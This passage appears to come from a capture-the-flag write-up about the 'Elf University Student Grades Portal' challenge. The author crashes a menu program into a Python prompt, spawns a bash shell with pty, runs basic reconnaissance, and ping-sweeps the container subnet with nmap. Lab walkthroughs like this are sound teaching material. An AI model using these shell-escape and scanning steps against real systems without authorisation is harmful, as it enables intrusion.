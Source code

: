 Now it looks like we're in a Python command shell! Using exit() kills out connection, so it looks like we'll have to spawn a shell in the Python environment.

After breaking out of the menu we can use the classic Python method of using pty to get a more comfortable shell:


	===================================================
	=      Elf University Student Grades Portal       =
	=          (Reverts Everyday 12am EST)            =
	===================================================
	1. Print Current Courses/Grades.
	e. Exit
	: Traceback (most recent call last):
	  File "/opt/grading_system", line 41, in <module>
	    main()
	  File "/opt/grading_system", line 26, in main
	    a = input(": ").lower().strip()
	EOFError
	>>> import pty
	>>> pty.spawn("/bin/bash")
	guwjbhbfzr@grades:~$ 
	guwjbhbfzr@grades:~$ ls
	guwjbhbfzr@grades:~$ whoami
	guwjbhbfzr
	guwjbhbfzr@grades:~$ pwd
	/home/guwjbhbfzr
	guwjbhbfzr@grades:~$ ifconfig
	eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
	        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
	        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
	        RX packets 2027782  bytes 269254689 (269.2 MB)
	        RX errors 0  dropped 0  overruns 0  frame 0
	        TX packets 2283760  bytes 392015372 (392.0 MB)
	        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
	
	lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
	        inet 127.0.0.1  netmask 255.0.0.0
	        loop  txqueuelen 1000  (Local Loopback)
	        RX packets 1714976  bytes 86258310 (86.2 MB)
	        RX errors 0  dropped 0  overruns 0  frame 0
	        TX packets 1714976  bytes 86258310 (86.2 MB)
	        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
	
	guwjbhbfzr@grades:~$

Cool, so we have a Linux environment, no files sitting in the home directory, and we have an IP of 172.17.0.2 on eth0.

There are no processes running, and going by the IP I think we're actually in a container. I'm not sure if this is relevant (container escape?) but lets start with a scan of the 172.17.0.0/24 network and see if there's anything else here...

	guwjbhbfzr@grades:~$ nmap -sn 172.17.0.0/24
	Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-24 16:30 UTC
	Nmap scan report for 172.17.0.1
	Host is up (0.00060s latency).
	Nmap scan report for grades.elfu.local (172.17.0.2)
	Host is up (0.00044s latency).
	Nmap scan report for 172.17.0.3
	Host is up (0.00039s latency).
	Nmap scan report for 172.17.0.4
	Host is up (0.00030s latency).
	Nmap scan report for 172.17.0.5
	Host is up (0.00025s latency).
	Nmap done: 256 IP addresses (5 hosts up) scanned in 2.92 seconds
	guwjbhbfzr@grades:~$ 
